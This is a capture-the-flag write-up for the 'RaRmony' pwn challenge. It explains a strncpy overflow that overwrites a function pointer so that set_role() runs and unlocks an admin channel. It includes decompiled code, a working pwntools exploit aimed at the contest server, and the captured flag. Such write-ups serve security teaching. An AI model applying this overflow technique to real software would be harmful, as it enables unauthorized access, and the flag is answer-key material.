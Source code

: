 ```yaml
---
grand_parent: Categories
parent: Pwn
title: RaRmony
nav_order: 1
---
```


# RaRmony 
```
Discord is full of problems; so I made my own service for discussion and flags!

I came up with 'Harmony' as a name months before DragonCTF had their challenge, and I like the name >:(
```

## Challenge

> TL;DR: Buffer overflow to overwrite `update_username()` function ptr to `set_role()`. 

Running the program:
```
Harmony: Chat for CTFers

0. Read Channel
1. View User Info
2. Change role name
3. Change username
> 
```

The binary comprises of 4 different functionalities:
- `Read Channel` - Allow you to specify a channel to read
- `View User Info` - Displays your current user information
- `Change role name` - Modify your role
- `Change username` - Modify your username

The "secret-admin-chat" channel contains the flag. However, if you try to read that channel (Not that simple :smile:), you will get a "Not allowed to see this channel!" message. 

A snippet of ghidra's decompiled `print_channel()`
```c
  if (*(int *)(param_1 + 8) < *(int *)(current_user + 4)) {
    puts("Not allowed to see this channel!");
  }
```

`*(current_user + 4)` is evaluated to 2 while `*(param_1 + 8)` is evaluated to 0. Since 0 is less than 2, you will get the error message.

:dart: Goal: Modify `*(current_user + 4)` to 0 or less so that you can read "secret-admin-chat" channel.

:information_source: Note: You cannot modify the value of `param_1` as the binary used `param_1` to specify the channel name.

After analysing the binary, we found a vulnerability in `update_username()`. We can overwrite the function ptr which allows us to run arbitrary function.

Ghidra's decompiled update_username()
```c
void update_username(long param_1)

{
  size_t sVar1;
  long in_FS_OFFSET;
  undefined8 local_40;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_40 = param_1;
  printf("Enter new username: ");
  fgets(local_38,0x28,stdin);
  sVar1 = strlen(local_38);
  local_38[sVar1 - 1] = '\0';
  strncpy((char *)(local_40 + 0x10),local_38,0x28);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Knowledge gained after analysing the binary:
- From `main()`, we know that `update_username()` function is invoked using `**(current_user + 0x30)(current_user)` so `(current_user + 0x30)` contains the address of `update_username()`
- `local_40` variable in `update_username()` is `current_user`

The vulnerable line is:
```c
  strncpy((char *)(local_40 + 0x10),local_38,0x28);
``` 

Since the offset from `(current_user + 0x10)` to `(current_user + 0x30)` is less than 0x28, the above code will overwrite address of `update_username()` located at `(current_user + 0x30)`. Hence, changing "Change username" functionality. So, we can overwrite the actual function and run arbitrary function (HEHE! :sunglasses:)

Next challenge: Find a suitable function to overwrite.

We found `set_role()` function which modifies the value of `*(param_1 + 4)` to `param_2`

Ghidra's decompiled `set_role()`
```c
void set_role(long param_1,undefined4 param_2)

{
  *(undefined4 *)(param_1 + 4) = param_2;
  return;
}
```

Knowledge gained after analysing the binary:
- When the binary calls `update_username()`, the $rdi (1st arg) and the $rsi (2nd arg) contains the address of current_user and 0x0 respectively.

If we overwrite the address of `update_username()` with `set_role()`, we can modify the value of `*(current_user + 4)` to 0x0 (which is our goal). Then, we can read the "secret-admin-chat" channel

Working POC:
```python
from pwn import *

binary = ELF('./harmony')
set_role = b'\x3b\x15\x40'
#r = process('./harmony')
#pause()
r = remote('193.57.159.27', 28514)
r.recvuntil(b'> ')
r.sendline(b'3')
r.recvuntil(b'username: ')
r.sendline(b'A'*32 + set_role)
r.recvline(b'> ')
r.sendline(b'3') # update current_user + 4
r.recvline(b'> ')
r.sendline(b'0')
r.recvline(b'> ')
r.sendline(b'2')

r.interactive()
```

Output of the program:
```bash
$ python3 pwn4.py
[*] '/home/kali/Downloads/rarctf/rarmony/rarmony/harmony'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 193.57.159.27 on port 28514: Done
[*] Switching to interactive mode
0. Read Channel
1. View User Info
2. Change role name
3. Change username
> 
Harmony: Chat for CTFers

0. Read Channel
1. View User Info
2. Change role name
3. Change username
> Choose channel to view
0. general
1. pwn
2. secret-admin-chat
3. team-locator-inator
4. crypto
5. spam
6. rev
7. misc
8. web
> secret-admin-chat
Tony: In case I forget it, here's the flag for Harmony
Tony: rarctf{:O,Y0U-f0und-4-z3r0-d4y!!1!_0038abff7c}
wiwam845: no leek nerd smh
Tony: sad!
```

Flag: `rarctf{:O,Y0U-f0und-4-z3r0-d4y!!1!_0038abff7c}`